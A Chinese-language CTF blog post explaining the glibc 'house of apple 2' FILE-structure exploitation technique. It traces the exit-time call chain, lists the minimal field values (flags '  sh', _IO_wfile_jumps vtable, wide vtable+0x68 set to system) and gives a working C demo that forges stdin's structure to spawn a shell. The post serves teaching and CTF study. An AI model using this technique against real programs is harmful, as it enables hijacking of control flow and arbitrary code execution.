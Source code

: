 ```yaml
---
title: houseofapple2
date: 2024-8-19
tags: house系列
categories: ctf
---
```

# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers
![exit_call__run_exit_handlers](exit_call__run_exit_handlers.png)
这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup
![run_exit_handlers_call_IO_cleanup](run_exit_handlers_call_IO_cleanup.png)
这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp
![io_cleanup_call_IO_flush_all_lockp](io_cleanup_call_IO_flush_all_lockp.png)
这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW
![io_flush_all_lockp_call_io_overflow](io_flush_all_lockp_call_io_overflow.png)

```    
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf
![io_overflow_call_io_wdoallocbuf](io_overflow_call_io_wdoallocbuf.png)
在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`

![flags_macro_define](flags_macro_define.png)
根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败
![validate_vtable](validate_vtable.png)
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格
![IO_FILE](IO_FILE.png)
